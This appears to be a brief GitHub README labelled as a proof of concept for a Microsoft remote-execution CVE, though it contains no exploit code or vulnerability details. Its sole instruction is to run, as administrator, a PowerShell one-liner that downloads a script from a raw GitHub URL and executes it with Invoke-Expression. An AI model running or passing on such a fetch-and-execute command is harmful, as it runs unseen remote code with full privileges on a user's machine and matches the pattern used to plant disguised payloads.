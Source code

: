 ## MS remote execution CVE POC...

run this as administrator:

```powershell
Invoke-Expression (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/sabixx/runsomethingfromthecloud/main/run.ps1").Content

